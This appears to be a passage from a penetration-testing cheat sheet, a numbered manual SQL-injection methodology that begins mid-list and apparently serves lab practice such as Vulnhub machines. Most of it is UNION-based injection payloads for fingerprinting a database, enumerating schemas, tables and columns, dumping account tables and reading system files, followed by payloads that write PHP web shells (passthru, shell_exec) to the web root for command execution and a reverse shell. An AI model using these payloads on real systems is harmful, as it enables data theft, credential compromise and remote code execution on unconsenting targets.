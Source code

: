 ```
... UNION ALL SELECT 1,2,3,4,5,6 
```
- Which numbers of 1 - 6 show on the page is where we are going to put the query part of the payload (We'll use 3 for rest of example) 
6. Fingerprint the DB 
```
... UNION ALL SELECT 1,2,[version payload],4,5,6 
```
7. Identify current user you're issuing commands for 
```
.... UNION ALL SELECT 1,2,[current user payload],4,5,6 
```
8. List the current datbase you're working in 
```
... UNION ALL SELECT 1,2,[current database payload],4,5,6 
```
9. List all of the databases available in the current view (assuming MySQL for the rest - check cheat sheet for syntax) 

***NOTE: You may have to change the 1,2,etc. numbers in this command to null value to have the FROM syntax work in the injection tests after this step.

```
... UNION ALL SELECT 1,2,[schema_name],4,5,6 FROM [information_schema.schemata] 
```
10. List the tables available in the current database 
```
... UNION ALL SELECT 1,2,[table_name],4,5,6 FROM [information_schema.tables] 
```
11. Identify a table of interest that has account information. Then list the columns available in the that table 
'''
... UNION ALL SELECT 1,2,[column_name],4,5,6 FROM [information_schema.columns] WHERE [table_name=[table of interest]] 
'''
  - Note that you LIKELY have to convert the table name to ASCII Character values to make this work. char(65,66,67) means ABC. Useful site to do this [link](http://www.unit-conversion.info/texttools/ascii/).
12. Output the contents of columns from a table. 
```
... UNION ALL SELECT 1,2,[column_name],4,5,6 FROM [database_name].[table of interest]
```
- Note: Prepend all of the available databases from the results of step 9 above to this command INCLUDING not appending any database.  If the command works without appending any database name, then the table you're interested in is already in the currently set database of the application you're exploiting SQLi from.
13. Load File Attempt 
```
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6 
```
14. Attempt command injection (Vulnhub:PwnOS2) **Make sure to include a comment field at the end of the string syntax if it was found to be necessary when fuzzing the input field at the beginning of manaul SQLi testing.**
```
union all select null,null,null,null,"<?php passthru($_GET['cmd']); ?>",null INTO DUMPFILE "[location of the web directory like /var/www/[new name].php]"
union all select null,null,null,null,"<?php shell_exec($_GET['cmd']); ?>",null INTO OUTFILE "[location of the web directory lik /var/www/[new name].php]"
```
  - The first command syntax with passthru and DUMPFILE works more often than the second.
  - Then you navigate to the standard web address and append "/\[new name].php" to the end of the address.  If it works, then the file was created successfully from command injection.  To issue a command, you just append "?cmd=\[command]".  For example.
  ```
  http://10.10.10.100/evil.php?cmd=id
  ```
  - You can then inject a reverse shell for a call-back.
